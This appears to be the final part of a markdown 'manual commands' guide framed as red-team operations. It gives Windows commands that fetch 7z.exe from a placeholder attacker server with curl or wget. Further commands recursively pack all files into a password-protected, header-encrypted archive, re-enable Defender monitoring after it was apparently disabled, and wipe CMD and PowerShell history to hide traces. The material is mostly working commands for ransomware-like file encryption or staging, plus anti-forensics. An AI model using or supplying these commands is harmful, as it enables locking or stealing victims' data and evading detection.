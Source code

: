 ### Re-enable After Operation
```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $false"
```

---

## Notes

1. **Replace `YOUR_SERVER_IP_HERE`** with your actual server IP
2. **Administrative privileges** may be required for silent installation
3. **Test in isolated environment** before production use
4. **Ensure authorization** for all red team operations
5. **For loop syntax differs** between CMD and batch files:
   - CMD: Use `%F` and `%D`
   - Batch: Use `%%F` and `%%D`

---

## Troubleshooting

### If 7z.exe download fails:
```cmd
REM Try alternative download methods
curl -o %TEMP%\7z.exe http://YOUR_SERVER_IP_HERE/7z.exe
REM or
wget -O %TEMP%\7z.exe http://YOUR_SERVER_IP_HERE/7z.exe
```

### If compression is too slow:
```cmd
REM Use faster compression (lower quality)
%TEMP%\7z.exe a -t7z -mx=3 -mhe=on -pantai "encrypted_files.7z" "*" -r -x!encrypted_files.7z
```

### If archive is too large:
```cmd
REM Split into multiple volumes (100MB each)
%TEMP%\7z.exe a -t7z -mx=9 -mhe=on -pantai -v100m "encrypted_files.7z" "*" -r -x!encrypted_files.7z
```

---

## Security Considerations

- These commands leave traces in command history
- Clear command history after operation:
  ```cmd
  doskey /reinstall
  ```
- Clear PowerShell history:
  ```cmd
  powershell -Command "Clear-History; Remove-Item (Get-PSReadlineOption).HistorySavePath"
  ```

---

**END OF MANUAL COMMANDS DOCUMENTATION**
